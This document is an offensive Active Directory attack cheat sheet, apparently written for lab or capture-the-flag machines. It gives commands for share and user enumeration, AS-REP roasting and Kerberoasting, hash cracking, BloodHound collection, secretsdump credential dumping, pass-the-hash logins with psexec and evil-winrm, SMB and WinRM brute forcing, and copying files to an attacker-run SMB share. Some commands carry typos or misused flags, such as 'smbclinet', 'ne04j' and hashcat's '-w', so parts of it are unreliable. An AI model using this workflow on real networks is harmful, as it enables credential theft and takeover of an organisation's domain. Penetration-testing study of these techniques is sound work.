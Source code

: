 ## Active Directory 
### Machine workflow
- [Enumerate Ports and Shares](#enum)
- [Identify valid users](#user)
- [Obtain users has who have kerberos pre auth set](#gnp)
- [Crack the hash to obtain the password](#cra)
- [Repeat Recon](#rrpc)
- [Enumerate other users in the network](#enumu)
- [Remote login if hash is obtained](#pwn)

### Enumeration Ports <a name="enum"></a>
```bash
# nmap 
nmap -p- --min-rate=1000 -oN ports -vv <machine-ip>
# sorting ports
open=$(cat ports | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//))
# enumerate services
nmap -sC -sV -p$open -oN nmap.out -T4 -vv <machine-ip>
```

### Anonymous Access
```bash
# crackmapexec
crackmapexec smb <machine-ip> -u'' -p'' <machine-ip> --shares

# smbclient
smbclinet -N -L \\<machine-ip>\\

#rpcclinet
rpcclient -U '' -P'' <machine-ip> # logs into the network if anon login is permitted
rpcclinet $> enumdomusers # enumerates the AD users
```

### Accessing a SMB Share
```bash
# smbclient
smbclient \\\\<machine-ip>\\<share-name>
```

### User Enumeration <a name='user'></a>

- kerbrute

```bash
# no authentication is required, just the user name list
# enumerate AD users with kerbrute
kerbrute userenum --dc 10.10.*.* -d <domain-name> <username(s)>
```

### Mounting an open share

```bash
# mount an anonymous login share
sudo mount -t cifs '//10.10.*.*/ShareName' /<mount-location>
```

### Kerberos Hacking <a name="gnp"></a>
```bash
# after obtaining valid users, look for users with kerberos preauth set
GetNPUsers.py -dc-ip <machine-ip> -format hashcat -usersfile <username(s)> <domain-name>/ -outputfile <hash-output>
```

### Obtaining Password <a name="cra"></a>
```bash
# cracking with hashcat
# TGT hash crack
hashcat -m 18200 -w /usr/share/wordlists/rockyou.txt <hash-file>
# SPN hash crack
hashcat -m 13100 -w /usr/share/wordlists/rockyou.txt <hash-file>

# cracking with JOHN THE RIPPER
# TGT hash crack
john --format=krb5tgs -w=/usr/share/wordlists/rockyou.txt <hash-file>
```

### Recon as a user in network <a name='rrpc'></a>
```bash
# since we have the user credentials for a user in the AD network, recon again to obtain files with specific permissions

# enumerate smb shares
crackmapexec smb <machine-ip> -u '<username>' -p '<password>'  --shares

# accessing smb share
smbclient -L \\\\<machine-ip>\\<share-name> -U <username> <password>

# mounting the share
sudo mount -t cifs -o 'username=UserName,password=Password' '//10.10.*.*/ShareName' /<mount-location>

# enumerate anything ¯\_(ツ)_/¯ with windsearch 
windsearch -d <domain-name> -u <user-name> -p <password> -m <module>
```

### Enumerate other users <a name="enumu"></a>
```bash
# a valid login into the network is required
# getadusers.py from impackets
GetADUsers.py --all -dc-ip <machine-ip> <domain-name>/<username>:<password> # TGT will be obtained which can be cracked offline

# enumerate service name principles
GetUserSPNs.py -request -dc-ip <machine-ip> <domain-name>/<username>:<password> # SPN hash will be obtained which can be cracked offline

# via rpcclient
rpcclient -U <username> -P <password> <machine-ip> #logged into the network
rpcclinet $> enumdomusers # enumerate users in the active directory environment

# crackmapexec
crackmapexec smb <machine-ip> -u <username> -p <password> --users

# windsearch 
windsearch -d <domain-name> -u <user-name> -p <password> -m users
```

### Bloodhound Enumeration <a name='bh'></a>
```bash
# setup
git clone https://github.com/fox-it/BloodHound.py; cd BloodHound.py; python3 setup.py install

# Running bloodhound.py (run on linux)
python3 bloodhound.py -u <username> -p <password> -ns <machine-ip> -d <domain> -c all 
```
```powershell
# with sharpsploit
powershell -ep bypass
import-module .\SharpHound.ps1
invoke-bloodhound -collectionmethod all -domain <domain-name> -ldapuser <user-name> -ldappass <password>
```

```bash
# start the neo4j console
sudo ne04j console

# start the bloodhound
cd /opt/bloodhound-linux-x64/
./BloodHound

# import all the json files
# mark the obtained user as owned user and the target user as high value target
```

### Owning the machine <a name='pwn'></a>
```bash
# perform bloodhound enumeration
# if the access to the backup account is obtained,
secretsdump.py -dc-ip <machine-ip> -just-dc <domain-name>/backup:<password>@<domain-name>

# login to the machine

# psexec.py
# with password
psexec.py <domain-name>/<username>:<password>@<domain-namee>
# with ntlm hash
psexec.py -hashes <ntml:hashes> <username>@<domain-name> -target-ip <machine-ip> -dc-ip <machine-ip>
psexec.py -hashes <ntlm:hashes> <username>@<machine-ip>


# evilwinrm
# with password
evilwinrm -i <machine-ip> -u <username> -p <password>
# with ntlm hash
evilwinrm -i <machine-ip> -H <ntlm hash from secretsdump> -u <username>
```

### Misc

#### Bruteforce
##### Hydra
```bash
# bruteforcing smb login
hydra -L users.txt -P pass.txt 10.10.*.* smb
```
##### Crackmapexec
```bash
# bruteforcing smb login, enumerating the available shares with --shares option
crackmapexec smb 10.10.*.* -u user.txt -p pass.txt --shares --continue-on-success

# bruteforcing winrm login
crackmapexec winrm 10.10.*.* -u users.txt -p pass.txt --continue-on-success 
```
##### Medusa
```bash
# bruteforcing smb login
medusa -h 10.10.*.* -U users.txt -P pass.txt -M smbnt 
```

#### File Transfer
##### SMB Service
```bash
# start a smb service in linux
# anonymous share
smbserver.py <share-name> . -smb2support
# authenticated share
smbserver.py <share-name> . -smb2support -username <username> -password <password>

# connect to the smbshare in windows
# anonymous share
net use x: \\<linux-ip>\<share-name>
# authenticated share
net use x: \\<linux-ip>\<share-name> /u:<username> <password>

# Copy file from windows to linux
copy <file-in-windows> \\<linux-ip>\<share-name>\
# copy files from linux to windows
copy \\<linux-ip>\<share-name>\<file.ext> .

```

##### useful links
- https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
- https://cheatsheet.haax.fr/windows-systems/exploitation/impacket/
- https://cheatsheet.haax.fr/windows-systems/exploitation/kerberos/
